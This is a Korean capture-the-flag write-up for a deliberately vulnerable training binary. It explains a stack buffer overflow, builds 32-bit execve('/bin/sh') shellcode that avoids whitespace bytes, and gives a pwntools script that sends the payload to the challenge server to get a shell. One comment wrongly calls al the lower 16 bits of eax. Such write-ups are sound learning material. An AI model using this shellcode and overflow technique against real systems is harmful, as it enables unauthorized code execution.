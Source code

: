 ## 📍basic_exploitation_000

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

### 소스코드
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x80];
	
    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);
	
    return 0;
}
```

30초가 지나면 `alarm_handler`를 호출하고 프로그램이 종료된다.

버퍼의 시작 주소를 출력한다.
버퍼의 크기는 0x80 = 128바이트이나, 최대 141바이트까지 입력을 허용한다.
즉 13바이트를 overwrite할 수 있다.

#### 풀이

문제에서 셸을 획득하라고 하는데, 셸을 실행할 수 있는 함수가 코드에 없기 때문에 셸코드를 사용해야 한다.

문제는 32bit 아키텍처를 사용하므로, 리턴 주소는 `ebp+0x4`가 될 것이다. (`0x4` = SFP의 크기)
`scanf` 함수의 버퍼 시작 주소와 `ebp+0x4` 사이의 거리를 알아낸다.

버퍼에는 셸코드부터, 남은 바이트는 더미 데이터로 채운다.
리턴 주소에는 앞서 입력한 셸코드의 주소가 들어가도록 해 함수가 리턴되면 셸코드가 실행되도록 한다.


### 바이너리 분석

![[{AE179B09-E38A-4656-B42D-4A4B3AD02A5F}.png]]

`scanf`에서 사용하는 버퍼의 시작 주소는 `ebp-0x80`이다.
따라서 `ebp-0x80`부터 `0x84`, 즉 132바이트만큼을 더미 데이터로 채우면 된다.


### 익스플로잇
#### scanf() 함수로 입력을 받는 경우 shellcode를 작성할 때 주의할 점
- 입력값은 버퍼에 저장되는데, `scanf()` 함수는 공백, 탭, 개행 3가지가 나오기 전까지 입력 버퍼에 있는 값을 가져오는 함수
	- 공백, 탭, 개행
		➡️ `0x09`(Horizontal Tab), `0x0A`(Line Feed), `0x0B`(Vertical Tab), `0x0C`(Form Feed), `0x0D`(Carriage Return), `0x20`(Space)
	- **문제**: 32bit 아키텍처에서 `execve()` 시스템 콜 값 = `0x0B`
		- `0x0B`는 아스키 코드에서 Vertical Tab이므로, `0x0B` 값 뒤에 있는 코드들은 무시됨
	- **해결**: 작성한 셸코드가 `scanf()` 함수로 입력받는 경우
		- `0x09`, `0x0A`, `0x0B`, `0x0C`, `0x0D`, `0x20` 값이 셸코드에 포함되지 않도록 작성해야 함

#### 32bit 아키텍처의 execve 셸코드
##### "/bin/sh" 문자열의 리틀 엔디안 값
- `/bin/sh` = `2F 62 69 6E 2F 73 68`
- 32bit 아키텍처이므로, 4바이트씩 나눠서 스택에 push한다.
- 1번째 블록: /sh = `68 73 2F`
- 2번째 블록: /bin = `6E 69 62 2F`

##### 셸 코드
```
section .text
global _start

_start:
	xor eax, eax
	push eax
	push 0x68732F       ; /sh
	push 0x6E69622F     ; /bin
	mov ebx, esp        ; ebx = "/bin/sh"
	xor ecx, ecx
	xor edx, edx
	mov al, 0x8
	inc al
	inc al
	inc al
	int 0x80
```
- `ebx`에 실행하고자 하는 바이너리의 경로를 적어준다.
- `ecx`, `edx`에는 각각 프로그램의 인자 포인터 배열과 환경변수 포인터 배열을 적는데, 지금은 `/bin/sh`만 실행하면 되므로 0으로 만든다.
- `eax`에 시스템 콜 번호를 넣어주는데, `0x0b`는 Vertical Tab이므로 바로 넣을 수 없고, `0x0a`, `0x09`도 넣을 수 없으므로, `0x08`에서 시작해서 1씩 증가시켜 `0x0b`를 만든다.
	- `al`: `eax` 레지스터의 하위 16비트
- `int 0x80`: 프로세스가 커널에 시스템 콜을 요청한다.

##### 바이너리 추출
1. `vi execve.asm`: 셸코드 작성 후 저장
2. `nasm -f elf execve.asm`: 오브젝트 파일 생성
3. `objdump -d execve.o`: 확인 ![[{0319C5E3-7E77-4C27-B600-CCE13BB3B8FC}.png]]
4. `objcopy --dump-section .text=shellcode.bin execve.o`: 바이너리 파일로 변환
5. `xxd -p shellcode.bin`: 바이너리에서 hexdump 값 뽑기![[{F03271C2-D8C3-4E9C-8A40-3AFB4CACC9A3}.png]]

위를 셸코드 형식으로 작성한다.

`\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

#### pwntools를 이용한 익스플로잇 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 8235)
p.recvuntil("buf = (")

buf_addr = int(p.recv(10), 16)

shellcode = b'\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80'
payload = shellcode + b'a'*(0x84 - len(shellcode)) + p32(buf_addr)

p.send(payload)
p.interactive()
```

![[{5AB8D97B-7853-40AE-BDDF-E21425429BAF}.png]]

30초 제한시간이 있다는 걸 까먹고 코드를 계속 고치면서 삽질했다...

🚩